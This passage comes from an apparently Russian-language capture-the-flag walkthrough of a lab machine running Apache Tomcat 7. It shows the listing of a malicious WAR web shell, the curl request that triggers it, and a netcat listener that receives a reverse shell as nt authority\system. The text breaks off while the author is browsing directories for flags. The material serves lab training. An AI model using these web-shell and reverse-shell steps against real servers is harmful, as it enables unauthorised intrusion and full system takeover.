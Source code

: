 Вот, что скрывает полученный файл (архив):
```text
root@kali:~# jar -tf sh3ll.war
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
wdwxbdssjol.jsp
```

Отсюда нам понадобится имя jsp-файла, чтобы триггернуть его через curl. Можно сделать то же самое через веб-интерфейс без знания имени, но разве это тру?

## Reverse-Shell
Загружаем вредонос через менеджер приложений и обращаемся к нему по имени:
```text
root@kali:~# curl http://10.10.10.95:8080/sh3ll/wdwxbdssjol.jsp

```

После чего получаем отстук на netcat:
```text
root@kali:~# nc -lvnp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.95.
Ncat: Connection from 10.10.10.95:49193.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

И мы в системе as `nt authority\system` :tada:

Забираем флаги:
```text
C:\apache-tomcat-7.0.88>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\apache-tomcat-7.0.88

06/19/2018  03:07 AM    <DIR>          .
06/19/2018  03:07 AM    <DIR>          ..
06/19/2018  03:06 AM    <DIR>          bin
06/19/2018  05:47 AM    <DIR>          conf
06/19/2018  03:06 AM    <DIR>          lib
05/07/2018  01:16 PM            57,896 LICENSE
03/04/2019  12:31 AM    <DIR>          logs
05/07/2018  01:16 PM             1,275 NOTICE
05/07/2018  01:16 PM             9,600 RELEASE-NOTES
05/07/2018  01:16 PM            17,454 RUNNING.txt
03/04/2019  12:44 AM    <DIR>          temp
03/04/2019  12:42 AM    <DIR>          webapps
06/19/2018  03:34 AM    <DIR>          work
               4 File(s)         86,225 bytes
               9 Dir(s)  27,577,380,864 bytes free

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator
cd C:\Users\Administrator

```